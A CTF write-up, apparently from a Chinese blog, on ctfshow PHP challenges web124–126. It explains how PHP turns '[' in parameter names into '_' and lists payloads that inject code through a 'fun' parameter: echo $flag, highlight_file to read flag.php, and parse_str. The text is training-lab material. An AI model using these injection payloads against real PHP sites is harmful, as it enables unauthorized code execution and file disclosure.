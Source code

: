 PHP变量名由**数字字母下划线**组成，是没有`.`的

这里从[大佬的文章](https://blog.csdn.net/weixin_45551083/article/details/110574834?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161110474016780277072722%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161110474016780277072722&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-9-110574834.pc_search_result_no_baidu_js&utm_term=ctfshow%20php%E7%89%B9%E6%80%A7&spm=1018.2226.3001.4187)了解到，GET或POST方式传进去的变量名,会自动将`空格 + . [`转换为`_`。

有一种特殊情况，特殊字符`[`GET或POST方式传参时,变量名中的`[`也会被替换为`_`,但**其后的字符就不会被替换了**
如 CTF`[`SHOW.COM=>CTF`_`SHOW.COM

**payload**

```
POST: CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag 
```

很明显这个解是非预期的，也不是通过正常步骤得到flag的

出题人的**预期解**

```
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1]) 
```

这里用羽师傅测试的例子

```
<?php
$a=$_SERVER['argv'];
var_dump($a);

传入 a=1+fl0g=flag_give_me
结果如下
array(2) { [0]=> string(3) "a=1" [1]=> string(17) "fl0g=flag_give_me" } 
```

## web125

payload

```
GET:?1=flag.php 
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1]) 
```

## web126

这题的姿势同web124的预期解，即

```
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1]) 
```

## web127
